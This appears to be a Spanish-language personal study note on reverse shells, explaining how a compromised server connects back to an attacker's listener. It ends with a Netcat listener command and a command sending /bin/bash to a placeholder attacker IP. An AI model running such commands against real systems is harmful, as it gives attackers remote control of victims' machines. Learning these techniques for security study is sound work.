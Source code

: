 -------------------------
- Tags: #tecnica #remoto #explotacion
------------------------------
# Definición

> Es una técnica que permite a un atacante conectarse a una máquina remota desde una máquina de su propiedad. Es decir, se establece una conexión desde la máquina comprometida hacia la máquina del atacante. Esto se logra ejecutando un programa malicioso o una instrucción específica en la máquina remota que establece la conexión de vuelta hacia una máquina del atacante, permitiéndole tomar el control de la máquina remota.

> Cuando hablamos de una **`reverse shell`**, hacemos referencia a un método inverso en comparación a la típica [[Bind Shell]]. En este caso, es el servidor web, quien se conecta a la maquina del atacante (antes referenciada como cliente). Para ello, lo que hacemos es levantar un servicio en la maquina del atacante, en un puerto de escucha. Luego el servidor web se conecta a esta pasándole como referencia la [[shell]] del mismo servidor.

![[Pasted image 20230826120135.png]]

>Los atacantes que realizan una **`reverse shell`**, muchas veces hacen uso de los servicios de VPS, en donde pueden tener direcciones IP publicas y configurar las reglas del gateway, para poder establecer la conexión entrante de la víctima y así poder ejecutar comandos en el sistema operativo.

> La **`reverse shell`** con [[Netcat]] se puede crear con el siguiente comando:

**Máquina del atacante**
```bash
nc -lvp 4444
```

**Servidor web**
```bash
nc IP-MAQUINA ATACANTE 4444 -e /bin/bash
```
